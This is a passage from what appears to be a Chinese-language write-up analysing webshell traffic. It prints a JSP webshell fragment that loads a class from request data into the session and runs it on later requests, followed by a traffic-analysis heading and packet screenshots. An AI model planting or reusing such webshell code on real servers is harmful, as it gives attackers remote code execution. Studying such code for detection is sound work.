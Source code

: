 ```php

        if (session.getAttribute("payload") == null) {
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            request.setAttribute("parameters", data);
            Object f = ((Class) session.getAttribute("payload")).newInstance();
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();

            f.equals(arrOut);
            f.equals(pageContext);
            f.toString();

            response.getOutputStream().write(x(arrOut.toByteArray(), true));
        }
    } catch (Exception e) {}
%>
```

### 流量分析

和上边一样的操作

![image.png](image%2061.png)

第一个包，请求包

![image.png](image%2062.png)
